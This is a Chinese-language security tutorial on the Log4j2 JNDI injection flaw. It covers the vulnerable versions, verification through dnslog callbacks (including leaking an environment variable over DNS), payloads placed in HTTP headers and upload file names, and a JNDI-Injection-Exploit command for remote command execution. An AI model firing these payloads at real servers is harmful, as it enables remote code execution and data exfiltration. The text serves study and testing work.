 Log4j2 是 Apache 软件基金会下的一个开源的基于 Java 的日志记录工具。Log4j2 是一个 Log4j 1.x 的重写。并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。
由于其优异的性能而被广泛的应用于各种常见的 Web 服务中。

^
## **JNDI注入**
JNDI是对各种访问目录服务的逻辑进行了再封装。
JNDI提供了一个通用的接口，使得Java应用程序可以查找和访问各种不同类型的命名服务和目录服务，包括文件系统、配置文件、DNS、LDAP服务器、RMI服务器等。
^
JNDI注入主要是用过下载远程class，来运行恶意代码。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务，验证时也可以使用dns协议。
>LDAP（轻型目录访问协议）：是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息。目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。
>RMI（Java远程方法调用）：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。
^
## **Log4j2漏洞原理**
在java中最常用的日志框架是log4j2和logback，其中log4j2支持lookup功能（查找搜索），例如开发者想在日志中打印今天的日期，则只需要输出 ${data:MM-dd-yy}，此时log4j会将${}中包裹的内容单独处理，将它识别为日期查找，然后将该表达式替换为今天的日期内容输出为"08-22-2022”，这样做就不需要开发者自己去编写查找日期的代码。然而lookup功能也允许在日志配置中引用远程JNDI资源，用来动态获取配置信息，比如从远程服务器获取信息字节流。
Log4j2 漏洞利用：攻击者使用 ${} 关键标识符触发 JNDI 注入漏洞，当程序将用户输入的数据进行日志记录时，即可触发此漏洞。此时攻击者构造一个特殊的JNDI URL，该URL指向一个远程服务器上的恶意LDAP服务。这个LDAP服务会返回一个恶意的类路径（类加载器链），最终导致远程服务器上的恶意类被加载和执行。
支持版本：2.0<=Log4j2<=2.14.1
^
## **漏洞利用和验证**

![](.topwrite/assets/image_1727319060611.png)
漏洞验证：
将用户名记录了日志中，
将用户的发言消息记录了日志中等
```
如：文件上传的名字记录日志
java代码：logger.info("获取图片原始文件名：{}”，originalFileName);
抓包把文件名改为：filename="${jndi:dns://***.dnslog.cn}"
成功获取DNSlog
获取java环境变量的操作系统OS：filename="${jndi:dns://${env:OS}.vmfp3r.dnslog.cn}"
```

对应的请求包中对应内容改为：
```
${jndi:ldap://183.145.120.145/Click1/Exec}  
//去请求一个LDAP服务器，域名的话也会请求DNS

${jndi:dns://***.dnslog.cn/exp}  
 //如果tcp不出网ldap失效，直接用dns协议(jndi支持dns://)去实现dnslog。


案例场景：
Accept-Language: zh-cN,zh;q=0.9
X-Api-Version: ${jndi:ldap://test.x****r.ceye.io/exp}
Content-Type: application/x-www-form-urlencoded
Content-Length:64
w-------------------+
username=admin${jndi : dns: //test.x****r.ceye.io/exp}
```
命令执行漏洞利用：
JNDI利用工具：LDAP服务器
工具使用方法参考<https://www.freebuf.com/vuls/337333.html>
实现：${jndi:ldap://127.0.0.1:1389/Basic/Command/你要执行的命令}

^
JNDI利用工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>
支持同时启动ldap服务和rmi服务。
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 47.109.58.205

${jndi:rmi://192.168.1.8:1099/yfwrr7}
${jndi:ldap://192.168.1.8:2113/akndj}
```

^
**log4j2不出网：**
rmi和ladp都是走的tcp协议，如果有网络防火墙tcp不出网，还想利用，将其转成icmp协议出网再转回来。
验证则直接用dns协议(jndi支持dns://)去实现dnslog：${jndi:dns://***.dnslog.cn/exp} 。

^
复现：
<https://www.freebuf.com/articles/web/341857.html>